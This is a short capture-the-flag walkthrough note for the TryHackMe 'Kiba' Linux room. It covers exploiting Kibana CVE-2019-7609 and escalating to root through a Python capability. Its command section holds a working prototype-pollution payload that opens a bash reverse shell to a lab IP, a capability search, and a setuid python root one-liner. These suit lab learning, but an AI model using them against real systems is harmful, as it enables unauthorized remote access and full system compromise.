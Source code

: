 # 24. Kiba 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**

#other/GAtactics 
#other/richInfo 
#boxtype/easy 
#category/enumBased 


## Gaining Access 😉
- full port scan using rustscan
- another web running on non-default port called kibana
- the version in vulnerable to RCE found exploit on [here](https://github.com/mpgn/CVE-2019-7609)
- upgraded to tty shell



## Maintaining Access 🥷
- further enumeration, python3 found on users home which is hidden: reffer[[#Important commands 🔥]] 2
- on gtfobins, python exploits found[here](https://gtfobins.github.io/gtfobins/python/#capabilities) :reffered command [[#Important commands 🔥]] 3

## Important commands 🔥
1. kibana revshell
	```
	.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i 			 >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
	.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
	```
2. getcap
	```
	getcap -r / 2>/dev/null
	```
3. python to root
	```
	./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- always scan full ports if you stuck
- use opensource intellingence such as gtfobins for privilege escaltion


--------------------------------
**By Nibras Muhammed** 🤓🖥️






